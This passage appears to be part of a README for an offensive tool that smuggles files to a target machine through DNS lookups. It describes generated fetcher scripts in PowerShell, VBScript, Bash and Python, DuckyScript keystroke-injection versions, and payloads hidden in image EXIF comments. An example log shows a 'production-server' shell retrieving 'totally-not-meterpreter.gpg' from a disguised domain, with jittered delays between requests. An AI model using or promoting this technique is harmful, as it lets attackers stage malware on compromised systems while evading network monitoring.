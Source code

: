 
### File Fetchers

![File fetcher overview](docs/images/fetchers.png)

File fetchers are generated for each file:

  - PowerShell fetcher script
  - VBScript (use cscript.exe) fetcher script using cmd/nslookup
  - Bash fetcher script using host or dig
  - Python3 fetcher script using python-dns

Fetcher facilitators:

  - DuckyScript versions for all of the above fetchers
  - Generated images with the EXIF tag "Comment" filled in with the individual payloads for all fetchers

Clicking on the Fully Qualified Domain Name link of the file will return the total list of DNS requests that are required for retrieving the file.

### Examples

#### Linux/UNIX file fetching using `bash` and `host` or `dig`
```
webapp@production-server:/tmp$ cat > get.sh
^D
webapp@production-server:/tmp$ bash get.sh
Retrieving totally-not-meterpreter.gpg using "host" command...
> Requesting 333.crcz.x.legitcdn.com (1/4)...
Sleeping 5 seconds...
> Requesting 333.hw1.x.legitcdn.com (2/4)...
Sleeping 1 seconds...
> Requesting 333.remedy.x.legitcdn.com (3/4)...
Sleeping 3 seconds...
> Requesting 333.guangzhou2.x.legitcdn.com (4/4)...
Done.
webapp-123@production-server:/tmp$ ls
totally-not-meterpreter.gpg
```
